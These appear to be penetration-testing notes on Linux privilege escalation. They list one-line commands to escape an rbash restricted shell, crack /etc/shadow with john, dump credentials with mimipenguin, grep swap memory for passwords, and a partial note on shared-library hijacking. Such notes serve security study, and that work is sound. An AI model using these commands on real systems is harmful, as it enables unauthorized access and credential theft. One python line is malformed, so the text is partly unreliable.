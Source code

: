 Restricted shell are implemented using rbash.
We can say we are in restricted shell when trying to use `cd` or common commands like `id >id.txt`.

We can run `env` to confirm we are in restricted shell.
We can use previous methods to use break out of the shell.
- `vi /tmp/test` and enter `!sh`.
- `find /home/bob -name test -exec /bin/sh \;` This will execute whatever follows the exec command.
- Using python or perl:
`python -c 'import pty; pty.spawn("/bin/sh')`
`perl -e 'exec "/bin/sh";'`
- Restricted shell escape from another sustem with SSH:
`ssh restricted_user@targetserver -t "/bin/sh"`

[There various other ways to escape restricted shells](https://www.google.com/search?q=%22Restricted+shell%22+++%22pentesting%22&oq=%22Restricted+shell%22+++%22pentesting%22)

#### Cracking shadow
`unshadow passwd shadow > crack.john`
`john crack.john -wordlist=/usr/share/wordlists/custom_words.txt`

#### MimiPenguin
[mimipenguin](https://github.com/huntergregal/mimipenguin)
There are two different scripts and both have different pros and cons.
![new.png](Pictures/c2.png)

#### Pilfering Credentials from Swap Memory
`swapon -s` or `cat /proc/swaps` to find swap file.
`strings /dev/sda5 | grep "password="`
`strings /dev/sda5 | grep "&password="`

[swap_digger](https://github.com/sevagas/swap_digger) can be used to automate search.

#### Code execution via shared object Library
[Shared object Library](http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html)

[https://www.mozilla.org/en-US/security/advisories/mfsa2013-87/](https://www.mozilla.org/en-US/security/advisories/mfsa2013-87/)
[https://bugzilla.mozilla.org/show_bug.cgi?id=1184466](https://bugzilla.mozilla.org/show_bug.cgi?id=1184466)

Its just like DLL injection in windows.

When linux appication executed the following things will happen:
1. Any directories specified by -rpath-link options. (RPATH)
2. Any directories specified by -rpath options. (RPATH)
3. If the -rpath and -rpath-link options are not used, it will then search the contents of the environment variables LD_RUN_PATH and LD_LIBRARY_PATH.
4. Directories defined the DT_RUNPATH environment variables first, if that doesn't exist then the DT_RPATH.
5. Then the default lib directories, normally /lib and /usr/lib.
6. Finally, any directories defined in the /etc/ld.so.conf file.
